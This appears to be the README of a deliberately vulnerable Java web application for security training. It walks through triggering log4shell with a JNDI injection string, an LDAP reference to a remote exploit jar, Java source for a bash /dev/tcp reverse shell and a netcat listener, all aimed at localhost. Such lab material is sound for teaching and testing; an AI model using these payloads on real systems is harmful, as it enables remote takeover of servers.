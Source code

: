 # vulnerable-webapp
An application with various vulnerabilities for testing

## Running the application

- Run the java file: ```java -jar vulnerable-webapp-[latest].jar```
- The default username is `jblogs` and the default password is `pa55word`.
- You will need a web browser such as firefox.


# Some vulnerabilities

## CVE-2021-44228 (log4shell)

To enable the in-memory LDAP server that is required for the JNDI lookup, you must run the application using the `ldap` spring profile e.g.:

```bash
java -Dspring.profiles.active=ldap -jar vulnerable-webapp-[latest].jar
```

Optionally, if you want to debug the in-memory LDAP server, you can enable `unboundid` debug logging using:


```bash
-Dcom.unboundid.ldap.sdk.debug.enabled=true -Dcom.unboundid.ldap.sdk.debug.level=INFO -Dcom.unboundid.ldap.sdk.debug.type=ASN1 -Dcom.sun.jndi.ldap.object.trustURLCodebase=true
```

### Triggering the vulnerability

To trigger the vulnerability and force Log4j to load a Java Naming Reference LDAP entry (rfc2713) using JNDI, inject the following expression into the *username* field of the `user-admin` page (other fields may work too!)


```
${jndi:ldap://127.0.0.1:8081/uid=java-ref,ou=people,dc=jisc,dc=ac,dc=uk}
```

![JNDI log4shell injection](site/img/jndi-injection.jpg)


The log4j variable substitution code path will then fetch the following `javaNamingReference` object from the in-memory LDAP server (via JNDI):

```
dn: uid=java-ref,ou=people,dc=jisc,dc=ac,dc=uk
objectclass: top
objectclass: javaContainer
objectclass: javaObject
objectclass: javaNamingReference
javaCodeBase: http://localhost:8080/rce/rce-exploit-0.0.1-SNAPSHOT.jar
javaClassName: uk.ac.jisc.cybersec.rce.RceExploit
javaFactory: uk.ac.jisc.cybersec.rce.RceExploit
cn: Java Class
sn: Class
uid: java-ref
```

The URLClassLoader will lookup the `uk.ac.jisc.cybersec.rce.RceExploit` class firstly from the local classpath — where it does not exist — then from the URL codebase provided by the LDAP entry (e.g. remotely via HTTP at `http://localhost:8080/rce/rce-exploit-0.0.1-SNAPSHOT.jar`). This downloads the referenced `jar` file, and instantiates `uk.ac.jisc.cybersec.rce.RceExploit`, triggering the static method shown below. The malicious code attempts to establish a reverse shell to anything listening on port *8083* on *localhost*:

```java
package uk.ac.jisc.cybersec.rce;

/**
 * Sample RCE exploit class. 
 */
public class RceReverseShellExploit {

	static {
		try {
			System.out.println("****************************** Attempting takeover (reverse shell)...");
			String[] cmd = {
			           "bash",
			           "-c",
			           "exec 5<>/dev/tcp/127.0.0.1/8083;cat <&5 | while read line; do $line 2>&5 >&5; done" };
			 
			   Runtime.getRuntime().exec(cmd);
			System.out.println("****************************** Takeover success!");
		} catch (Exception e) {
			e.printStackTrace();
		}
	}

}
```

To complete the attack and establish a remote network connection to the compromised web-server, you, as the *bad-actor*, must start a listener on port `8083`. For example, using `netcat`:


```bash
nc -l 8083
```

Once the connection is established, can can run bash commands inside the listener you started above e.g. type `ls` into the terminal window running `netcat`.


#### Note on Java Version

To ensure the vulnerability works in versions of Java greater than v8, the following property is set automatically by the web-application — JDK versions after JDK 8 disable class creation from URL codebases by default.


```
-Dcom.sun.jndi.ldap.object.trustURLCodebase=true
```

Note, a 'codebase' can be defined as a source, or a place, from which to load classes into a virtual machine. 
